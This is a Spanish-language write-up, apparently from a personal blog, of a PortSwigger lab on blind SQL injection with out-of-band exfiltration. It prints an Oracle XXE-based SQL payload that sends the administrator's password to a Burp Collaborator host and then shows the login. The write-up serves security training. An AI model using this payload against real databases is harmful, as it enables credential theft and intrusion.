 ```yaml
---
title: "16 Blind SQL injection with out of band data exfiltration"
collection: publications
category: portswigger
permalink: /publications/16_Blind SQL injection with out of band data exfiltration
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. Para resolver el laboratorio, explotamos la vulnerabilidad de inyección SQL fuera de banda para obtener la contraseña del administrador.'
date: 2024-12-02
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'Blind SQL injection with out of band data exfiltration'
---
```


![logo]({{site.url}}/images/SQLi/sqli-16/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-16/descripcion.png)

## Objetivo del laboratorio

* Explotar una vulnerabilidad SQLi para obtener el password del usuario administrator.
* Login como usuario administrador

# Cheat Sheet

[Hoja de Trucos](https://portswigger.net/web-security/sql-injection/cheat-sheet)

![Cheet]({{site.url}}/images/SQLi/sqli-16/cheet.png)

# Servidor

Obtenemos un servidor desde la pestaña `Collaborator`

`nc33sjxg8k7bhtlz9h7khabde4kv8nwc.oastify.com`

Usamos los payloads que nos proporciona la hoja de trucos de Burp y le colocamos el servidor que nos proporciono.

```sql
' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.nc33sjxg8k7bhtlz9h7khabde4kv8nwc.oastify.com/"> %remote;]>'),'/l') FROM dual)--
```

![payload]({{site.url}}/images/SQLi/sqli-16/payload.png)

Abrimos el colaborator y vemos la contraseña del usuario `administrator`

![resultado]({{site.url}}/images/SQLi/sqli-16/resultado.png)

## Login

![login]({{site.url}}/images/SQLi/sqli-16/login.png)

## Resuelto

![resuelto]({{site.url}}/images/SQLi/sqli-16/aprobado.png)